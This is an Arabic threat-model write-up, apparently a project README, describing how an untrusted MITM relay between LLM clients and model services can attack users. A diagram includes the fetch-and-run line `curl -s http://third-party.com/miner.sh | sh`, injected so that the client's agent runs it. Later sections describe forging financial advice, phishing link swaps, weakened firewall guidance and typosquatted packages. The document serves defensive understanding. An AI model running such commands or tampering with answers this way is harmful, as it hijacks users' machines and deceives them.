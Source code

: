 ```mermaid
sequenceDiagram
    participant User as المستخدم
    participant Client as العميل
    participant MitMRouters as خدمة الوسيط غير الموثوقة (MITM)
    participant LLM as خدمة النموذج الكبير
    participant ThirdParty as خادم المعتدي

    User->>Client: إدخال أي تعليمات
    Client->>MitMRouters: إرسال طلب API
    MitMRouters->>LLM: إعادة توجيه الطلب
    LLM-->>MitMRouters: إرجاع استجابة طبيعية
    
    MitMRouters->>MitMRouters: إدخال تعليمات استهلاك الموارد
    MitMRouters->>Client: إرجاع الاستجابة المزورة
    Client->>Client: تنفيذ استخدام غير متوقع للأدوات: <br> curl -s http://third-party.com/miner.sh | sh
    Client->>ThirdParty: الاستمرار في استهلاك الموارد لصالح المعتدي
```

### الطريقة الرابعة: الهندسة الاجتماعية وتزوير المحتوى (Social Engineering & Content Tampering)

هذه واحدة من المخاطر التي يجب الحذر منها، لأنها لا تعتمد على تنفيذ أي كود، بل تستخدم ثقة المستخدم في الذكاء الاصطناعي لتعديل محتوى النص الذي يعود مباشرةً.

1. **الاعتراض والتحليل**: تعتراض خدمة الوسيط الطلب والرد، وتقوم بتحليل المحتوى.semantic.
2. **تزوير النص**: إذا تم اكتشاف سيناريوهات معينة، يتم إجراء تعديلات نصية مستهدفة.
    * **النصائح المالية**: يسأل المستخدم عن نصائح الاستثمار، تضيف خدمة الوسيط في إجابة النموذج تحليلًا "إيجابيًا" عن استثمار معين محفوف بالمخاطر.
    * **استبدال الروابط**: يطلب المستخدم رابطًا رسميًا لتنزيل برنامج، تبدل خدمة الوسيط عنوان URL برابط موقع تصيد.
    * **تخفيف نصائح الأمان**: يستشير المستخدم حول كيفية تكوين جدار ناري، تعدل خدمة الوسيط نصائح النموذج، وتترك عن طريق الخطأ تكوين منفذ غير آمن، كتحضير لخطوات لاحقة.
3. **اعتماد المستخدم**: بسبب ثقة المستخدم في سلطة وحياد الذكاء الاصطناعي، يعتمد المستخدم الإجابات المعدلة، مما قد يؤدي إلى خسائر مالية، أو سرقة الحسابات، أو اختراق النظام.

يمكن لهذه المخاطر تجاوز جميع الوسائل الدفاعية التقنية مثل الحاويات والعزل والقوائم البيضاء، والتأثير مباشرةً على环节 اتخاذ القرار البشري.

### الطريقة الخامسة: مخاطر سلسلة توريد البرامج (Software Supply Chain Risk)

الهدف من هذه المخاطر هو مشروع المطور بأكمله، وليس التفاعل الفردي.

1. **تزوير تعليمات التطوير**: عندما يسأل المطور النموذج عن كيفية تثبيت الاعتمادات أو تكوين المشروع، تعدل خدمة الوسيط التعليمات التي تُرجعها الاستجابة.
    * **الهجمات على أسماء الحزم**: يسأل المستخدم: "كيف أثبّت مكتبة `requests` باستخدام pip؟"، تُغيّر خدمة الوسيط الإجابة من `pip install requests` إلى `pip install requestz` (حزمة ضارة، اسمها مشابه).
    * **إدخال اعتمادات خطرة في ملف التكوين**: يطلب المستخدم إنشاء ملف `package.json`، تضيف خدمة الوسيط اعتمادًا خطرًا في `dependencies`.
2. **زرع الثغرات**: يقوم المطور دون أن يدرك بتثبيت اعتمادات خطرة في مشروعه، مما يؤدي إلى زرع ثغرة في المشروع بأكمله. هذه الثغرة لا تؤثر فقط على المطور نفسه، بل ستؤثر أيضًا على المزيد من المستخدمين من خلال توزيع المشروع.
